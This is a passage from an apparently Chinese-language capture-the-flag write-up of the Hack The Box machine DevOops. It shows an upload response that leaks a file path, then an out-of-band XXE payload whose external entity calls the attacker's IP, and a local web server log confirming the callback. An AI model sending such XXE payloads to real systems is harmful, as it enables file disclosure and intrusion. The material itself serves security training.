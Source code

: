 ```
```
HTTP/1.1 200 OK

Server: gunicorn/19.7.1

Date: Wed, 01 Jun 2022 08:38:25 GMT

Connection: close

Content-Type: text/html; charset=utf-8

Content-Length: 150



 PROCESSED BLOGPOST: 

  Author: max

 Subject: test

 Content: hello

 URL for later reference: /uploads/test.xml

 File path: /home/roosa/deploy/src
```

返回了上传路径，我们在url可以访问到上传的xml文件


# xxe攻击

下面payload虽然报错了
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [

	<!ENTITY  % xxe SYSTEM "http://10.10.16.4/xxe" >

	%xxe;

]>

<data>

<Author></Author>

<Subject>test</Subject>

<Content>hello</Content>

</data>
```

但是其实可以访问到我们本地的web server，证明存在xxe

```
┌──(root💀kali)-[~/htb/DevOops]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.91 - - [01/Jun/2022 05:07:23] code 404, message File not found
10.10.10.91 - - [01/Jun/2022 05:07:23] "GET /xxe HTTP/1.0" 404 -
